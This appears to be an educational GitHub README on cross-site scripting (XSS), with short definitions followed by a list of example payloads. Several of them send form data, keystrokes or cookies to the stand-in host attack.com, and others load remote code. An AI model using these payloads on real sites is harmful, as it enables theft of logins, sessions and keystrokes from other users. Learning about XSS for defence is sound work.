 <p align="center"><img align="center" width="500" height="500" src="./assets/Cross-site-scripting.gif"/></p>

# Cross-site Scripting

    Before we start talking about Cross-site-scripting, I'd like to say that this repository is for educational purposes only, so that you can understand how this vulnerability works and how to avoid future problems with XSS.
### Web application
    Basically, a web application is a piece of software that runs in a web browser, such as Chrome, Firefox etc. Why understand what a web application is? precisely because Cross-site-scripting (XSS) is caused by flaws in web applications themselves. Like Facebook, Olx etc. 
<code> You can learn more about web application here: https://aws.amazon.com/what-is/web-application/ </code>
### Vulnerability
    Vulnerability is precisely a weakness in a web application that is exploited through bugs or the structure of the web application itself, if it has flaws, and it is in these flaws that people with malicious intentions can gain access to sensitive and important data.
<code>You can learn more about vulnerabilities here: https://owasp.org/www-community/vulnerabilities/.</code>
#### XSS
    XSS is an injection attack frequently based on JavaScript, but it can also include HTML or any type of code that our browser can execute. They inject into a web application with the focus of being executed by other users. In this way, it can send malicious code to other people who may mistakenly click on a script that captures sensitive or important information. 


### Payloads
Payloads are basically Javascript codes that we can execute on target users' computers.

Examples of payloads with **JavaScript**:

```javascript
Basic Alert Payload:
<script>alert('XSS')</script>


Redirection Payload:
<script>
    window.location.href='http://attack.com'
</script>


Form Data Capture Payload:
<script>
    document.location='http://attack.com/logger.php?data=' +    
    document.getElementById('form_id').value 
</script>

Keylogger Payload:
<script>
    document.onkeypress=function(e){
        fetch('http://www.attack.com/logger.php?k=' + e.key);
    }
</script>

AJAX Command Execution Payload:
<script>
    fetch("http://www.attack.com/log.php?data="+
    document.cookie);
</script>

```

Examples of payloads with **Flash**:
```javascript

Javascript Execution Payload:
<object data='http://www.attack.com/flash.swf'></object>

Redirection Payload (inside a .swf file):
getURL("javascript:window.location.href='http://attack.com'");

Remote Code Execution Payload (inside a .swf file):
load('http://www.attack.com/exploit.js');

```
